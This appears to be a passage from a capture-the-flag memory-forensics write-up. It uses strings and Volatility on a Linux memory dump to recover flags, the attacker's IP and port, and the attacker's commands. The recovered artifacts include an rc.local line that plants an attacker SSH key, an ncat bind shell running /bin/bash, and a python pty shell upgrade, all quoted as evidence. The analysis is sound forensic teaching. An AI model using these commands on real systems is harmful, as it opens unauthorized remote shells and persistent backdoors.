 ```
.....vim             3196                           
.abrt-dbus           3271 
```

So what is in this file ?

```
$ strings -d dump.mem | grep -A30 "/etc/rc.local"
#!/bin/sh
# Well played : c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXaacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A
0wu9nn/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obbe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkIILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation

$ echo "c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=" | base64 -d 
shkCTF{rc.l0c4l_1s_funny_be2472cfaeed467ec9cab5b5a38e5fa0}

```
Forth flag !

### Attacker

*We need to report this cyberattack. Please find out who is this asshole and what is one of the first thing he did !*

*Retrieve :*
-     Attacker IP
-     Local port used by the attacker
-     The bash command using python

Following https://nmap.org/ncat/guide/ncat-exec.html: 
```
 Whatever the exec mode, Ncat sets environment variables in the spawned program's environment that describe the connection.

NCAT_REMOTE_ADDR, NCAT_REMOTE_PORT

    The IP address and port number of the remote host. In connect mode, it's the target's address; in listen mode, it's the client's address. 
NCAT_LOCAL_ADDR, NCAT_LOCAL_PORT

    The IP address and port number of the local end of the connection. 
```

So I searched for NCAT_REMOTE_ADDR and NCAT_LOCAL_PORT with strings, which gave me :
- NCAT_REMOTE_ADDR=192.168.49.1
- NCAT_LOCAL_PORT=12345

For the bash command line :
```
$ volatility --profile=Linuxsharkyx64 -f dump.mem linux_psaux 
Volatility Foundation Volatility Framework 2.6
[..]
2779   1000   1000   /usr/libexec/gvfsd-metadata                                     
2854   0      0      ncat -lvp 12345 -4 -e /bin/bash                                 
2876   0      0      /bin/bash                                                       
2886   0      0      python -c import pty; pty.spawn("/bin/bash")                    
2887   0      0      /bin/bash                                                       
3196   0      0      vim /etc/rc.local
[..]
```
Here is the flag : shkCTF{192.168.49.1:12345:python -c 'import pty; pty.spawn("/bin/bash")'}
